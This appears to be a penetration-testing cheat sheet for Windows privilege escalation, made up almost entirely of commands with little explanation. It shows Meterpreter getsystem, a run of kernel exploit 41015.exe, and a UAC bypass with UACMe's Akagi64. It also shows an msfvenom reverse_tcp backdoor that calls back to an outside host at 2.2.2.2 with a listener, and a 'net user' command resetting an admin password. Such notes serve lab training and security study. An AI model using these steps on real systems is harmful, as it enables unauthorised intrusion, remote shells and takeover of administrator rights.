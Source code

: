 ### Windows Privilege Escalation
**Windows Kernel Exploits**
Windows-Exploit-Suggester and Windows-Kernel-Exploits.
```
Meterpreter: getsystem

MSF (automatic): search suggester

shell
systeminfo
Copy-paste information to txt file in kali
./windows-exploit-suggester.py --update --database 2021...xls --systeminfo win7.txt
Download binary for exploit

cd C:\\Temp\\
upload ~/Downloads/41015.exe
.\41015.exe 7
whoami
```

**Bypassing UAC with UACMe**
```
search rejetto
sysinfo
pgrep explorer
migrate 2448
sysinfo
getuid
getprivs
shell
net user
net localgroup administrators
net user admin password123

msfvenom -p ...reverse_tcp LHOST=2.2.2.2 LPORT=1234 -f exe > backdoor.exe

use multi/handler
set payload ...reverse_tcp

cd C:\\
mkdir Temp
cd Temp
upload backdoor.exe
upload /root/Desktop/tools/UACME/Akagi64.exe
.\Akagi64.exe 23 C:\Temp\backdoor.exe

getprivs
ps
migrate 688
getuid
```
